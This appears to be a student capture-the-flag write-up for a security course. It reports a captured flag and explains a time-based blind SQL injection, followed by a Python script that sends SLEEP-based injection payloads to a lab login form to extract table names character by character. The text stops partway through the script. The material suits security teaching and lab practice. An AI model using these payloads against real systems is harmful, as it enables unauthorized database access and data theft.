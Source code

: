 ##### Flag is: inf226{s0_y0u_c4n_b4s1c_5q71}

[Flag received from the server](https://github.com/jhaos/inf226/blob/master/sqli/out_1.txt)


### 0x04

At this time I don't have any code.

#### Description of the vulnerability

As I don't have any guide from a source code and every time I send a request to the app in the webpage I receive not feedback for you this time, or a internal server error maybe I can be in front of a blind sql injection so I'll try to get access with querys over the tables and then go deeper.

#### Description of the script

As in the previous example I will use Python with library requests. This script has three parts and every part has the same structure but changing the payload on the request. All of parts has a while loop to ensure all letters of the name will appear and inside there is another loop that go over ascii chain characters to check with the payload letter by letter the name, on the first part, of the table, in the second one, the name of the column and in the third one the content which is the flag. In the payloads I use blind sqli technique with a time based querys because I don't have any feedback from the server. Below is the code with some comments explaining the parts of the code as well.

```Python
import requests
from requests.exceptions import Timeout

targetUrl = "http://shepherd.ii.uib.no:8002/signIn"

cont = 1
ascii_char = []
table_name = "" 
column_name = ""
flag = ""

#Make a character chain with a lot of ascii characters to check the names.

for i in range(48, 127):
     ascii_char += chr(i)

#Adding '$' symbol and put '_' in last place to ensure that it don't overwrite any character.
ascii_char.append('$')
ascii_char.remove('_')
ascii_char.append('_')


print (ascii_char)

#The first part will discover the name of the table using blind and time-based querys checking the characters of the chain and if there is a timeout it's because
#the query was correct and server is sleeping so that's I know if the letter checked is part of the name and I will add the letter to the name.
while cont < 5: 
     for i in ascii_char:
          param = {"inputName":"'OR 1=1 AND IF((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE '"
          +table_name+i+"%',SLEEP(5), 0)#", "inputPassword":"not_needed"}
          try:     
               result = requests.post(targetUrl, param, timeout=2)
          except Timeout:
               table_name += i
               print(table_name)
               cont = 0
               break
```